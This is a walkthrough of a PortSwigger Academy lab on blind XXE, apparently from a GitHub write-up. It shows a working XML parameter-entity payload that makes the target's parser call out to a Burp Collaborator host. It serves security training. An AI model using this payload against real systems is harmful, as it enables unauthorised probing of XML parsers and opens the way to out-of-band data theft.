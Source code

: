 # Lab: Blind XXE with out-of-band interaction via XML parameter entities

 This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

**Note**

*To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.*

# Step 1 Walk the application

I want to find where the application is using XML, and find a location I can test for XXE on the /product/stock page

![image](https://user-images.githubusercontent.com/83407557/210183855-7a8f4f85-6bf5-48b1-9638-0dd1dfc53b74.png)

# Step 2 create a payload with a parameter entity

Grabbing attack-server URL:

![image](https://user-images.githubusercontent.com/83407557/210183886-64015264-cff2-4c46-8e26-34c743ac005d.png)

```
s0tiemqwne4py9a6p9it4d0uclic62ur.oastify.com
```

Creating the payload:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://s0tiemqwne4py9a6p9it4d0uclic62ur.oastify.com"> %xxe; ]>
```

# Step 3 perform XXE injection

![image](https://user-images.githubusercontent.com/83407557/210183929-5158ac3d-0ed8-46c4-81ec-4d983c4f2103.png)

# Step 4 Poll collaborator

I see that a DNS lookup was made from the target application:

![image](https://user-images.githubusercontent.com/83407557/210183951-9ef58f44-7906-4bb8-87a7-9b0d840580bd.png)

which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/210183954-16ce8d36-ae9b-47ed-b8f8-76eda9525ed3.png)


